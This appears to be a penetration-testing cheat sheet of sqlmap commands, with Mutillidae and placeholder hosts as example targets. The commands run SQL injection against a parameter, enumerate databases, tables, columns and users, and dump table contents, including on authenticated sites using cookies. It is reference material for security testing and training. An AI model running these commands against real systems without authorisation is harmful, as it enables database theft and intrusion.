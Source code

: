 # sqlmap: run against GET parameter  
sqlmap -u http://some-site-com/mutillidae/index.php?parameter=1 -p parameter  
  
# sqlmap: with file (i.e. burp)  
sqlmap -r ~/full/path/to/post/file -p nameOfParameter  
  
# sqlmap: mark paremeter to inject with *  
sqlmap -r ~/full/path/to/post/file  
  
# sqlmap: get the database names  
sqlmap -r nameOfPostFile -p nameOfParameter --dbs  
  
# sqlmap: get the tables of a database  
sqlmap -r nameOfPostFile -p nameOfParameter --tables -D nameOfDatabase  
  
# sqlmap: get the columns of a specific table  
sqlmap -r nameOfPostFile -p nameOfParameter --columns -D nameOfDatabase -T nameOfTable  
  
# sqlmap: get the content of the columns  
sqlmap -r nameOfPostFile -p nameOfParameter --dump -D nameOfDatabase -T nameOfTable  
  
# sqlmap: get database system users  
sqlmap -r nameOfPostFile -p nameOfParameter --users  
  
# sqlmap: get current database system user  
sqlmap -r nameOfPostFile -p nameOfParameter --current-user  
  
# sqlmap: SQL injection on authenticated site  
sqlmap -u "http://targetSite/some/path" --data"id=1&str=value" -p "id" --cookie="cookie1=val1;cookie2=val2"  
  
# sqlmap: SQL injection with specific DB type  
sqlmap -u "http://targetSite/some/path" -P nameOfParameter --dbms="mssql|mysql|oracle|postgres"  
  
# sqlmap: encoding  
--hex